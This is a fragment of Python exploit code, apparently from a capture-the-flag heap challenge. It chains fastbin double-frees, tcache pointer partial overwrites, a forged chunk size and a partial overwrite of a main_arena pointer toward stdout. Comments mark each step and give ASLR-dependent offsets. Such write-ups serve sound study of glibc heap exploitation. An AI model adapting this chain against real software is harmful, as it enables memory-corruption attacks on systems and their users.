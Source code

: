 ``` python
    for i in range(7):
        refund(s, i + 1)

    # fastbin dup 8 -> 9 -> 8
    refund(s, 8)
    refund(s, 9)
    refund(s, 8)

    # clean tacahe 0x20
    for _ in range(7):
        buy(s, 0x10)

    # partially overwrite next_chunk
    buy(s, 0x10)
    edit(s, 8, b"\x40\x96")
    
    # allocate overwritten heap address
    buy(s, 0x10)
    buy(s, 0x10)
    buy(s, 0x10)            # index 11 ; overwritten heap address

    # overwrite chunk size
    edit(s, 11, p64(0) + p64(0x421))

    # fill tcache 0x20
    for _ in range(2):
        buy(s, 0x10)
    for i in range(7):
        refund(s, i + 1)

    # fastbin dup 12 -> 13 -> 12
    refund(s, 12)
    refund(s, 13)
    refund(s, 12)

    # clean tcache 0x20
    for _ in range(7):
        buy(s, 0x10)

    # partially overwrite next_chunk
    buy(s, 0x10)
    edit(s, 12, b"\x50\x96")

    # allocate overwritten heap address
    buy(s, 0x10)
    buy(s, 0x10)
    buy(s, 0x10)            # index 15 ; overwritten heap address
    
    # free(0x555555559650) ; move chunk to unsorted bin
    refund(s, 15)

    # clean tcache 0x70
    for _ in range(7):
        buy(s, 0x60)

    # restore chunk size
    edit(s, 11, p64(0) + p64(0x71))

    # partially overwrite main_arena -> stdout
    buy(s, 0x60)
    edit(s, 22, b"\xa0\x06\xfc")    # aslr off
    # edit(s, 22, b"\xa0\x76")      # aslr on
    
```